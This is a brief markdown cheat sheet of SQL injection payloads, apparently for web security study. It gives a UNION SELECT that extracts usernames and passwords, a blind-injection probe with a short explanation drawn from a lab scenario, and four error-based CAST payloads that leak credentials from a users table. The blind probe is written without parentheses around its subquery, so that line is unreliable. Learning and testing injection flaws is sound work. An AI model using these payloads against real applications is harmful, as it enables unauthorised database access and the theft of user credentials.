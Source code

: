 Multiple values
`' UNION SELECT NULL,username || '~' || password FROM users--`


## Blind SQLi

This query is vulnerable to SQL injection, but the results from the query are not returned to the user. However, the application does behave differently depending on whether the query returns any data. If you submit a recognized TrackingId, the query returns data and you receive a "Welcome back" message in the response.

This behavior is enough to be able to exploit the blind SQL injection vulnerability. You can retrieve information by triggering different responses conditionally, depending on an injected condition. 

`?id=1 AND SELECT SUBSTR(table_name,1,1) FROM information_schema.tables = 'A'`


### Error-Based SQL Injection

```
' AND CAST((SELECT 1) AS int)--
' AND 1=CAST((SELECT username FROM users) AS int)--
' AND 1=CAST((SELECT username FROM users LIMIT 1) AS int)--
' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)--
```

